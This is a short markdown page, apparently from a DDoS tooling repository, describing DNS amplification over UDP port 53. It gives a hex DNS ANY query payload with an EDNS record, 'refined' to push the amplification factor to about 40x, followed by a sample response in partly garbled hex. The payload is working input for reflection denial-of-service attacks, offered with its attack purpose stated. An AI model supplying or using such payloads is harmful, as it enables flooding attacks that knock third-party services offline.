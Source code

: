 # DNS-Amplification

## Port: 53

## Proto: UDP

## Amplification factor: 10-30x

### Refined payload
- From 44 Byte to 500 Byte
- Amplification factor increased to ~40x
<pre>C4\75\01\00\00\01\00\00\00\00\00\01\00\00\FF\00\01\00\00\29\23\28\00\00\00\00\00\00\00\00\00\00\00</pre>pre>

### Example response

<pre>C4\75\81\8000\01\00\0E\00\00\00\01\00\00\FF\00\01\00\00\0200\01\00\00\23\AF\00\14\01\6C\0C\72\6F\6F\74\2D73\65\72\76\65\72\73\03\6E\65\74\00\00\00\02\0001\00\00\23\AF\00\04\01\6B\C0\1E\00\00\02\00\0100\00\23\AF\00\04\01\67\C0\1E\00\00\02\00\01\0000\23\AF\00\04\01\69\C0\1E\00\00\02\00\01\00\0023\AF\00\04\01\6A\C0\1E\00\00\02\00\01\00\00\23AF\00\04\01\66\C0\1E\00\00\02\00\01\00\0023\AF00\04\01\62\C0\1E\00\00\02\00\01\00\00\23\AF\0004\01\61\C0\1E\00\00\02\00\01\00\00\23\AF\00\0401\68\C0\1E\00\00\02\00\01\00\00\23\AF\00\04\016D\C0\1E\00\00\02\00\01\00\00\23\AF\00\04\01\63C0\1E\00\00\02\00\01\00\00\23\AF\00\04\01\64\C01E\00\00\02\00\01\00\00\23\AF\00\04\01\65\C0\1E00\00\2E\00\01\00\00\23\AF\01\13\00\02\08\00\0007\E9\00\68\54\EA\D0\68\43\B9\40\CF\9C\00\22\5811\A8\0F\4D\30\FF\1C\42\2F\86\56\48\C1\45\C9\2A6D\85\D4\03\EE\CF\17\FE\F5\60\31\5E\84\43\C5\8BBC\4F\8F\3D\5F\08\23\D0\A0\92\7B\75\2C\4F\8D\41A5\A0\94\F1\DC\0F\7E\2B\5E\B3\AB\B7\8C\AB\EC\67AA\9D\14\A2\22\88\EC\95\A1\B8\EB\F8\3C\5D\E1\D875\17\98\62\F3\16\EB\22\95\38\25\90\54\32\5A\DE2C\50\D3\9E\9F\23\4F\B9\B5\9A\24\08\8D\A1\8B\E084\44\4E\68\69\47\2D\7E\F8\18\03\0A\85\81\BB\B187\F5\11\8A\FD\5F\3A\2C\74\1D\56\90\26\E5\FC\9755\E5\88\3D\AA\0F\92\55\12\A1\6B\C0\AB\EE\B0\DBBD\A7\26\A0\31\C5\AA\99\44\38\7B\92\79\3B\A7\10CC\DB\C3\44\60\D1\CA\E1\BC\15\E7\1D\02\4A\A8\423D\E4\A8\28\63\D7\85\AB\E6\98\8E\E0\27\3D\DC\EF70\42\DE\8B\D7\04\AE\8D\3E\77\E6\79\78\7C\AE\F9A9\76\53\66\96\78\CC\BC\25\76\5B\A1\4D\B3\20\D4A\F3\95\7B\80\B6\1F\C6\CD\2D\B9\66\2D\A5\00\0029\04\D0\00\00\00\00\00\00\</pre>
